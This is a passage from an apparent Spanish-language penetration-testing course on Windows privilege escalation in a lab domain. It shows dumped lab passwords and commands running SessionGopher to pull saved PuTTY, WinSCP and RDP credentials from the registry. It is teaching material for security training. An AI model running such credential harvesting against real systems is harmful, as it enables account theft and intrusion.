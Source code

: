 ```r
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

---

## Even More Fun with Credentials

Podemos usar [SessionGopher](https://github.com/Arvanaghi/SessionGopher) para extraer credenciales guardadas de PuTTY, WinSCP, FileZilla, SuperPuTTY y RDP. La herramienta está escrita en PowerShell y busca y descifra la información de inicio de sesión guardada para herramientas de acceso remoto. Puede ejecutarse localmente o de forma remota. Busca en la hive `HKEY_USERS` para todos los usuarios que han iniciado sesión en un host unido al dominio (o independiente) y busca y descifra cualquier información de sesión guardada que pueda encontrar. También puede ejecutarse para buscar archivos de clave privada PuTTY (.ppk), Remote Desktop (.rdp) y RSA (.sdtid).

### Running SessionGopher as Current User

Necesitamos acceso de administrador local para recuperar la información de sesión almacenada para cada usuario en `HKEY_USERS`, pero siempre vale la pena ejecutarlo como nuestro usuario actual para ver si podemos encontrar credenciales útiles.

```r
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
```